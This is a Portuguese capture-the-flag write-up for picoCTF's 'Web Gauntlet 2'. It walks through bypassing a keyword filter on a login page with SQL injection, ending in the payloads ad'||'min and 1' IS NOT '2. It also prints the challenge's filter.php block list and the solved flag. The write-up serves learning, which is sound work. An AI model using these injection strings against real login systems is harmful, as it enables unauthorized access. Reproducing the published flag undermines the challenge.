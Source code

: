 # Gauntlet 2
###### Resolvido por @BrunoCuba 
> Este é um CTF sobre [SQL Injection, Weak Filtering, Session Manipulation]

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio
- [Gauntlet_2](https://play.picoctf.org/practice/challenge/174)
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a segunda questão, percebi que ela seria quase igual ao web Gauntlet 1, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

Depois, acessei o `filter.php`, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso deste exercício, os filtros são:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas incluíram buscar no ChatGPT por algumas alternativas, e ele me deu o seguinte comando:

```sql
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
```

Porém, essa tentativa não foi favorável, pois o site tem um filtro de tamanho de caracteres também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi ao GPT para me passar todos os comandos do SQLite:

```sql
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
```

Com todas essas opções, comecei a tentar diferentes comandos de forma que o valor fosse positivo e nenhum filtro fosse barrado, mas nenhuma ideia funcionou. Pedi ajuda ao GPT novamente, e ele sugeriu tentar comparar dois números diferentes com o `IS NOT` para que o valor fosse `TRUE`, permitindo que a lógica no SQLite me desse acesso ao site.

Minha primeira tentativa foi:

```sql
LOGIN: 'qualquer coisa'
SENHA: 1' IS NOT '2
```

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)

Eu percebi que não adiantaria tentar entrar com outro usuário, então voltei ao Web Gauntlet 1 para ver como o login do admin funcionava e tentar burlar o filtro.

No campo de LOGIN, eu precisava usar: `ad'||'min`, e então tentei novamente no campo de SENHA: `1' IS NOT '2`.

Com isso, consegui realizar o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)  

![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois, acessei o `filter.php`, que me apresentou o seguinte código:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>  
```

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
